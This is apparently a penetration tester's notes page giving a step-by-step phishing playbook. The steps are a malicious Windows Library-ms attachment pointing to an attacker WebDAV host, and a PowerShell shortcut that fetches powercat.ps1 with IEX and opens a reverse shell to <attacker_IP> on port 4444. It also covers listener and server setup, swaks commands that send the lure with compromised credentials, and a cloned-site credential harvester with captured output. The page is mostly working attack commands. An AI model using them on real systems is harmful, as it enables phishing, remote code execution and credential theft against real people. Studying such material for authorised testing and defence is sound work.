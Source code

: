 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Phising

## Attachment

{% tabs %}
{% tab title="1. Malicious File" %}
Create a malicious attachment (`config.Library-ms`) and include the attacker host's IP address within the `<url>` tags (line 15):

{% hint style="warning" %}
Create the attachment on a Windows host!

* `Library-ms` is a Windows-specific file format, and it must follow a specific XML structure with Windows metadata.&#x20;
* If it is created it on Linux, even with the same contents, it might not be recognized or executed properly by Windows.
{% endhint %}

{% code title="config.Library-ms" overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://172.16.42.42</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
{% endcode %}
{% endtab %}

{% tab title="2. Shortcut" %}
Create a malicious PowerShell shortcut pointing first to an attacker-controlled HTTP server and then to an attacker-controlled listener:

{% code overflow="wrap" %}
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<attacker_IP>:8000/powercat.ps1');powercat -c <attacker_IP> -p 4444 -e powershell"
```
{% endcode %}
{% endtab %}

{% tab title="3. Transfer & Setup" %}
Transfer both files to the attacking host under `/webdav` and start the server from within that directory:

```bash
# List the directory's contents 
$ ls
config.Library-ms  powershell.lnk

# Start the WEBDAV server
$ sudo wsgidav --host=0.0.0.0 --port=80 --root=./ --auth=anonymous
```

Start the HTTP server and the listener:

```bash
# List the directory's contents 
$ ls
powercat.ps1

# Start the HTTP server
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
# Start the listener
$ sudo nc -lnvp 4444
```
{% endtab %}

{% tab title="4. Email" %}
Send the phising email along with the malicious attachment:

{% code overflow="wrap" %}
```bash
# Send the phising email to jim
$ swaks --to target@example.com --from compromized-email@example.com --header "Subject: Important!!!" --body @body.txt --attach @config.Library-ms --server 192.168.X.189 --auth LOGIN --auth-user compromized-email@example.com --auth-password 'Pass123!'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Site Clone

The [Social Engineering Toolkit](https://github.com/trustedsec/social-engineer-toolkit) can be used to automate the process:

{% tabs %}
{% tab title="1. seautomate" %}
We can manually run `setoolkit` and select the options _Social-Engineering Attacks_ → _Website Attack Vectors_ > _Credential Harvester Attack_ > _Site Cloner_.&#x20;

We can also the above choices and required input using `seautomate`:

{% code overflow="wrap" %}
```bash
$ cat set_commands.txt
1
2
3
2
10.10.14.15
https://example.com/login.aspx

$ sudo ./seautomate set_commands.txt
...
[*] Cloning the website: https://example.com/login.aspx
[*] This could take a little bit...

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:
```
{% endcode %}
{% endtab %}

{% tab title="2. Email" %}
We can then send our phising email:

{% code overflow="wrap" %}
```bash
swaks --to sales@domain.com --from it@domain.com --server 10.13.14.15 --port 25 --body @email_body.txt
```
{% endcode %}
{% endtab %}

{% tab title="3. Creds" %}
```bash
$ sudo ./seautomate set_commands.txt
...
[*] Information will be displayed to you as it arrives below:
[*] WE GOT A HIT! Printing the output:
POSSIBLE USERNAME FIELD FOUND: LoginType=Explicit
POSSIBLE USERNAME FIELD FOUND: user=username123
POSSIBLE PASSWORD FIELD FOUND: password=Password123!
PARAM: domain=LAB.LOCAL
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.
```
{% endtab %}
{% endtabs %}
